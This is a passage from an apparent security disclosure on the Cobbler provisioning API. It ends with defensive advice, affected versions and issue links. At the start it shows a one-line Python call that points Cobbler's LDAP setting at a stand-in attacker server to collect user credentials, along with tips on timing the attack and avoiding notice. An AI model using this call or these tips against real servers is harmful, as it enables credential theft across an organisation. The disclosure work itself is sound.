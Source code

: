 ```python
cobbler_connection.modify_setting('ldap_server', 'my-evil-ldap-server.example.com', 'bogus_token')
```

The attacker can then use their server to collect user credentials, gaining all the privileges of those users, for all systems that are connected to the organization's LDAP server.

This is a 'loud' attack because already logged in users will have their login session interrupted. But even if the ability to login was disrupted and reported to system administrators, the changes to the settings are entirely in-memory and are wiped out upon restart of the Cobbler server.
Only the most paranoid sysadmins are likely to dig further if the problem resolves itself on restart. "Must have just lost its connection to the LDAP server for some reason" is an all too common problem in their field.

Aside: If an attacker were to do this attack, it would likely be done when they are confident no one will be logged into the system (ex. 23:00 Saturday, when the office is closed for the weekend).

(There are many more settings that can be tampered with. The full can be seen at `/cobbler_web/setting/list` or in [the source](https://github.com/cobbler/cobbler/blob/650e4226e31613c9a6fda024da9b1df24d27fc95/config/cobbler/settings).)

# Conclusions

These are just the vulnerabilities I discovered. I have no doubts that there are numerous other ways that the Cobbler API can be abused for nefarious purposes. The API is essentially unauthenticated, and its power is almost unlimited.

Ironically, if there had been good documentation of the API, I would have never looked at the code itself, and never discovered these problems.

If you are using Cobbler today, make sure that it is not exposed to the Internet. Beyond that, recognize that if an attacker were to gain a foothold in your network, that your Cobbler server is an attractive next target, given the information that can be gleaned from it. Consider configuring a firewall to restrict or disallow access to the `/cobbler_api` endpoint.

Finally, Cobbler has been graciously maintained by one person in their (limited) spare time. However, they are [now looking for maintainers](https://github.com/cobbler/cobbler/issues/1892) to keep the project going. Fixing these vulnerabilities will take a sizeable, dedicated effort. If you are using Cobbler as part of your infrastructure today, consider contributing some of your engineering talent's time to getting these issues fixed so that the entire community can continue to use this tool safely.

# Response

## Affected versions

These vulnerabilities are verified as present in Cobbler versions 2.6.11+, but code inspection suggests at least 2.0.0+ or possibly even older versions may be vulnerable.

## GitHub Issues

* Persistent XSS: https://github.com/cobbler/cobbler/issues/1917
* Incorrect Authentication: https://github.com/cobbler/cobbler/issues/1916
